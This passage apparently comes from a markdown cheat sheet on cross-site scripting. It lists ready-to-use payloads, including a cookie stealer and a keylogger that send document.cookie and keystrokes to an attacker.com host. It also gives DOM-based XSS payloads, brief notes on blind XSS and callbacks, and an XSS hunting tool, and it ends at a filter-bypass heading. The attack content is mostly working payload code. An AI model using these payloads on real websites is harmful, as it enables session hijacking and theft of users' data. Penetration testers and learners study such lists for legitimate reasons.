 **Cookie Stealer**

```javascript
<script>fetch('https://attacker.com?cookie=' + btoa(document.cookie));</script>
```

\#OR

```javascript
<script>window.location='http://attacker?cookie='+document.cookie</script>
```

**keylogger** payload that records every keystrok on a certain page

```javascript
<script>document.onkeypress = function(e) { fetch('https://attacker.com/log?key=' + btoa(e.key) );}</script>
```

#### DOM-based XSS

In a DOM-based XSS attack, a malicious payload is not actually parsed by the victim's browser until the website's legitimate JavaScript is executed. An attackers payload will only be executed when the vulnerable Javascript code is either loaded or interacted with. The JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code. Execution occurs when the website JavaScript code acts on input or user interaction. #Example payloads

```javascript
test" onmouseover="alert('Hover over the image and inspect the image element')"

test" onmouseover="alert(document.cookie)"

test" onhover="document.body.style.backgroundColor = 'red';

#"><img src=/ onerror=alert(2)>

<iframe src="javascript:alert(`xss`)">
```

#### Blind XSS

Same as Stored XSS but you can't see the payload working or if it actually stored in the database of the website. #Entry points

```
Same as stored xss
```

\#Note: Aim to include a call back in your payload such as \[http] to learn whether your payload worked or not.

#### Popular XSS Tools

```
https://xsshunter.com/
```

#### XSS Filter Bypass
